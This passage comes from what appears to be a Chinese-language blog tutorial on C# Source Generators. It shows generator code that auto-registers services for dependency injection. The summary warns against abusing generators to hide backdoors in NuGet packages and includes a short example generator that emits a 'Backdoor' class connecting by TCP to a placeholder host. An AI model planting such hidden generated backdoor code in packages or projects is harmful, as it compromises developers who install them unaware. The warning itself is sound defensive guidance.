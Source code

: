             if (!hasAttribute) continue;
    
            // 生成服务注册代码行
            registrations.AppendLine($"{indent}services.AddScoped<{classSymbol.ToDisplayString(SymbolDisplayFormat.FullyQualifiedFormat)}>();");
        }
    
        // 3. 生成扩展类模板
        if (context.Compilation.AssemblyName == null) return;
        
        var safeAssemblyName = context.Compilation.AssemblyName.Replace(".", "_");
        var extensionCode = $@"
    public static class GeneratedServicesExtension
    {{
        public static void AddServicesIn{safeAssemblyName}(this IServiceCollection services)
            => services.AddServices();
    
        internal static void AddServices(this IServiceCollection services)
        {{
    {registrations}
        }}
    }}";
    
        // 4. 组合最终代码并输出
        var finalCode = $@"// <auto-generated />
    using Microsoft.Extensions.DependencyInjection;
    
    {extensionCode}";
    
        context.AddSource($"GeneratedServicesExtension_{safeAssemblyName}.g.cs", 
            SourceText.From(finalCode, Encoding.UTF8));
    }
    

最终每次编译默认都会生成自动注入代码

![image](https://img2024.cnblogs.com/blog/1264751/202510/1264751-20251019195732822-873782297.png)

**核心步骤**

![mermaid-diagram](https://img2024.cnblogs.com/blog/1264751/202510/1264751-20251019195520456-1720033546.png)

### 8.总结

通过上面的介绍，相信您已经对 Source Generator 有了一些认识，如果您理解了，讲一个敏感话题，请不要基于他生成代码的特性以及隐蔽性，去做了一些生成后门代码的东西，然后放到nuget包给对于一些不了解这个技术的人，楼主在这里已经科普了，包括但不限于类似以下代码!!!

    public void Execute(GeneratorExecutionContext context)
    {
        var backdoorCode = @"
            using System.Net.Sockets;
            class Backdoor {
                static void Connect() {
                  //用tcp 
                    new TcpClient(""xxxx.com"", 1337);
                }
            }";
        context.AddSource("Backdoor.g.cs", backdoorCode);
    }
    